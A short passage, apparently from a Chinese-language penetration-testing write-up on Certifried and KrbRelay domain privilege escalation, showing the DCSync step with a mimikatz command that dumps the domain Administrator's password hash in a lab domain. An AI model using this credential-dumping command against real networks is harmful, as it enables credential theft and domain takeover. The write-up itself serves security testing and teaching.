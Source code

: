 ![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519085349342.png)

### DCSync

由于域控制器账户拥有所需的权限，我们通过 DCSync 转储域管理员哈希，如下图所示。

```powershell
mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```
